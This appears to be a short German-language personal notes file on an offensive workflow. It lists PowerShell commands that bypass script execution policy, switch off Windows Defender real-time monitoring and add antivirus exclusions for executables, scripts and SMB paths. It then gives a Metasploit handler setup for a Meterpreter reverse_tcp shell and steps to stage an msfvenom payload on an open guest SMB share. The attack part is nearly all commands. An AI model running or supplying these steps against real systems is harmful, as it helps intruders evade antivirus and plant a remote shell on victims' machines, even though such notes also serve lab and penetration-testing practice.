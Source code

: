 # Notizen – 81a5terfr34k
## Windows: 

### Richtlinien mit Powershell Befehlen ändern:
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: .\<scriptname>.ps1

---

## Linux:

---

- Payload erstellen: msfvenom
- Meterpreter sitzung Listener:

```bash
msfconsole
msf6> use exploit/multi/handler
msf6> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6> set LHOST <kali IP>
msf6> set LPORT 4444
msf6> set ExitOnSession false
msf6> exploit -j
````

---

- smbshare Ordner erstellen: sudo mkdir -p /srv/smbshare
- smbshare Ordner zugriff erteilen: sudo chmod -R 777 /srv/smbshare
- Payload nach smbshare Ordner verschieben: mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/
- Inhalt von smbshare kontrollieren: ls -l /srv/smbshare
- SMB Dienst starten: sudo systemctl start smbd
- SMB Dienst status prüfen: sudo systemctl status smbd
- Zugriff auf smbshare testen: smbclient //localhost/share -N
- aktive Samba Konfiguration anzeigen: testparm ( /etc/samba/smb.conf)
- SMB Konfigurations-DATEI bearbeiten: sudo nano /etc/samba/smb.conf  
- NEUEN [share]-Block ganz unten im dokument erstellen mit:

````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
   
[global]-Block ergänzen:
   map to guest = Bad User
````

- speichern: strg+0 
- schliessen: strg+x
- SMB Dienst neu starten: sudo systemctl restart smbd
